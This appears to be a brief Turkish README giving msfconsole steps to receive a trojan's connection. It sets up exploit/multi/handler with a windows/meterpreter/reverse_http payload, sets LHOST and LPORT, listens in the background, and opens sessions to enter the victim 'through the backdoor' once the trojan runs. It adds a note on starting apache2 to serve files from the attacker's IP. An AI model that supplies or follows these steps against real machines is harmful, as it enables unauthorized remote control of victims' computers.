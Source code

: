 # MSFCONSOLE

#### 1.```msfconsole``` 
#### 2.```use exploit/multi/handler``` diyerek payload tanımlıyoruz
#### 3.```set patload windows/meterpreter/reverse_http```  (trojanın oluşturulma tipine göre değişiklik gösterebilir)
#### 4.```LHOST ve LPORT```'u değiştiriyoruz
#### 5.```exploit -j -z``` ile dinlemeye başlıyoruz 
#### 6. Trojan çalıştığında ```sessions -l``` ve ```session 1``` ile backdoor'dan giriş yapıyoruz
---
### ```service apache2 start/stop``` Kendi IP'mizin Web servisini aktif hale getirir
